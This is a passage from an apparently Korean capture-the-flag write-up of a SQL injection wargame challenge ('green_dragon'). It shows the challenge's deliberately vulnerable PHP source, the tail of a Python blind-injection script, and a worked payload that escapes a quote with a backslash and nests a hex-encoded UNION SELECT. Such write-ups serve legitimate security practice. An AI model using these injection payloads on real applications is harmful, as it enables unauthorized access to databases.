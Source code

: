 ```python
    res = requests.get(url=url, params=param, cookies=cookie)
    if 'score</th><tr><td>admin' in res.text:
      email += chr(char)
      print(email)
      break
        
print(email.lower())
```
<br>

## Green_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```
### exploit
별다른 필터링은 없지만 **'과 "** 를 필터링하기 때문에 새로운 방법을 찾아야한다.<br>
id에 \값을 넣어 이스케이프한다고 해도 or 1=1을 통해 출력되는 값이 없다. 이는 green_dragon 테이블이 비어있다는 것을 의미한다.
값을 출력하기 위해 union select를 사용할 것이다.
```sql
query1: select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'
query2: select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'
->
query1: select id,pw from prob_green_dragon where id='\' and pw='union select 0x5c,0x756e696f6e2073656c65637420636861722839372c3130302c3130392c3130352c3131302923#'
query2: select id from prob_green_dragon where id='\' and pw='union select char(97,100,109,105,110)#'
payload = id=\&pw=union select 0x5c,0x756e696f6e2073656c65637420636861722839372c3130302c3130392c3130352c3131302923%23
```
union을 사용할 때 \과 함께 사용하려면 hex값으로 인코딩 해줘야한다.
<br><br>
